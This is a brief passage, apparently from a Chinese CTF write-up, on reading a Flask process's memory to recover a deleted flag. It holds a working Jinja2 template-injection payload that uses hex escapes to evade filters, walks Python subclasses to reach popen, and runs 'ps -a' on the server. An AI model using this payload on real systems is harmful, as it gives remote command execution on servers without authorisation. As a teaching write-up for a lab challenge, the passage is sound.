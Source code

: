 ![4](/medias/buuflask/4.png)


### 方法二：读取进程

题目先注入flag，启动容器，容器读取flag，容器删除flag，整个过程flask进程一直在运行，所以可以读取进程的内存，拿到flag

用ps命令，查看一下flask进程的pid

::: v-pre
```python
nickname={{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("ps -a")["read"]()}}
```
:::

看到flask进程pid是1
